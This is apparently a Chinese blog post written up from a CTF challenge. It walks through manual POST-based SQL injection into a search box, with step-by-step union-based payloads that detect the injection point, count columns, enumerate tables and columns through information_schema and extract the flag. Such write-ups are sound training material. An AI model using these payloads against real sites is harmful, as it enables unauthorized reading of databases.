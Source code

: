 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      SQL注入 --手工post          # 标题 
subtitle:   post注入   #副标题
date:       2020-03-13              # 时间
author:        SGQ                   # 作者
header-img: img/post-bg-hacker.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                                    #标签
    - SQL注入  
    
---
```


## 原理:
> 简单的说就是在post/getweb表单、输入域名或页面请求的查询字符串中插入SQL命令，最终使web服务器执行恶意命令的过程。
假设某网站页面显示时URL为--- http://www.xxx.com?test=123 ---，此时URL实际向服务器传递了值为123的变量test，这表明当前页面是对数据库进行动态查询的结果。由此，我们可以在URL中插入恶意的SQL语句并进行执行。

## 题目:
>

>一个简单的输入搜索框

>

## 考察点：
>sql注入中的post注入。

>一般有两种方式：

>第一种方式，通过burpsuit抓包存在一个文件中，然后通过sqlmap -r进行读取。

>第二种方式，通过手工注入，构造payload，进行union查询。如果通过手工注入，怎么分析注入点，怎么构造payload，怎么获取表名列名，怎么读取数据呢？

## 解题过程：
>1.首先查看网页源代码，发现是post方法，果断打开hackerbar。post注入是通过对输入框进行传参，可以被带入数据库进行的查询，
post注入的两个条件：1.用户可以控制传参，2.用户输入的语句被带入数据库进行查询。

>2.Post data 框 输入search=' ，发现页面出错，可知存在注入的可能。继续输入search=' and 1=1，发现依然报错，search=' and 1=1# 发现变回正常页面。证明存在注入点，可用'  #进行闭合。
>如何理解所构造的payload？
>
>OK,简单的解释一下SQL语句.我们搜索的内容是--- ' and 1=1 # ---,代入到数据库的语句是:--- select * from XXX where search = ' ' and 1=1 #' ---，搜索框开头输入的单引号闭合了原来前面的单引号，最后是一个#,注释了后面的单引号,数据库在执行语句的时候其实执行的是:--- select * from XXX where content = ' ' and 1=1 ---,这个语句理解就很简单了。

> 3.用order by 查询当前页面连接的列名个数：--- search=' order by 1# ---页面返回正常 ，直到4，页面开始出错，说明有3个。

> 4.使用union 联合查询 显错点，输出点，语句：--- search='  union select 1,2,3#  ---，页面爆出显位2，3。

> 5.OK,接下来的步骤就很容易了，利用hackerbar插件，构造--- search= ' Union Select 1,CONCAT_WS(0x203a20,USER(),DATABASE(),VERSION()),3# ---,得到数据库名为news。

> 6.接着获取表名，构造--- search= ' Union Select 1,group concat(table name),3 from information schema.tables where table schema= 0x6E657773 # ---，得到表名为f1agfl4gher3。

> 注意：这里需要把数据库名称“news”做了一个16进制Hex编码，编码之后为---0x6E657773 ---。

>7.同理获取列名：--- search= ' Union Select 1,group concat(column name),3 from information schema.columns where table name=0x66316167666C346768657233)# --- ，得到列名为h3r31sfl4g。

> 8.最后获取数据，--- search= ' Union Select 1,h3r31sfl4g,3 from f1agfl4gher3 # ---，得到flag！

> --- flag{sql_ information_ schema_ hack} ---



>

>

>[参考链接（一）：](https://www.fujieace.com/penetration-test/mysql-manual-injection.html)
>[参考链接（二）：](https://blog.csdn.net/qq_42097777/article/details/89088142)

## 谢谢您的查阅，欢迎来访！
